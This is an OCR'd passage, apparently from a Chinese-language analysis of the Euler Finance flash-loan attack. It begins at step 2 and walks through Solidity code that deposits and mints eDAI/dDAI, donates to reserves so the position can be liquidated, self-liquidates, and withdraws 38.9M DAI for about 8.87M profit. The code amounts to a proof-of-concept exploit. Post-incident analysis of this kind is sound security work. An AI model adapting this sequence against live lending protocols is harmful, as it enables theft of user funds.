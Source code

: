 2.部署了一个智能合约，并向其转移了 2000 万个 DAI。在 executeOperation 函数中添加此操作

```js
function executeOperation(  
    address\[\] calldata assets,  
    uint256\[\] calldata amounts,  
    uint256\[\] calldata premiums,  
    address initiator,  
    bytes calldata params  
) external returns (bool){  
    LendContract lendcontract=new LendContract(address(this));  
    dai.approve(address(aave),type(uint256).max);  
    dai.transfer(address(lendcontract),nums1\[0\]);  
    lendcontract.exp();  
    return true;  
}
```

3.使用智能合约存入 2000 万 DAI，铸造 1.95 亿 eDAI / 2 亿 dDAI。借款人在偿还1000万DAI后，铸造了1.95亿eDAI/2亿dDAI，并捐赠了1亿eDAI，使头寸可变现并改变了兑换率，还在功能中加入了变现智能合约部署脚本。

```js
function exp() public{  
    liquidationContract liquidation\_C=new liquidationContract(address(this),mainContractAddress);  
      dai.balanceOf(address(this));  
    dai.approve(address(euler),type(uint256).max);  
    edai.deposit(0,20000000000000000000000000);  
    edai.mint(0,200000000000000000000000000);  
    ddai.repay(0,10000000000000000000000000);  
    edai.mint(0,200000000000000000000000000);  
    edai.donateToReserves(0,100000000000000000000000000);  
    liquidation\_C.exp();  
}
```

4.然后调用清算功能，启动清算过程，获得 3.1 亿 dDAI 和 2.5 亿 eDAI。最后，攻击者调用了提现功能，获得了3890万DAI，用于偿还通过闪电贷借入的3000万DAI。他们获利887万。

```js
function exp() public{  
    PROXY.LiquidationOpportunity memory s=PROXY.LiquidationOpportunity({  
    repay:0,  
    yield:0,  
    healthScore:0,  
    baseDiscount:0,  
    discount:0,  
    conversionRate:0  
    });  
    s=proxy.checkLiquidation(address(this),lendcontractAddress,address(dai),address(dai));  
    proxy.liquidate(lendcontractAddress,address(dai),address(dai),s.repay,250000000000000000000000000);  
    edai.withdraw(0,38900000000000000000000000);  
    dai.transfer(address(MainAddress),38900000000000000000000000);  
}
```
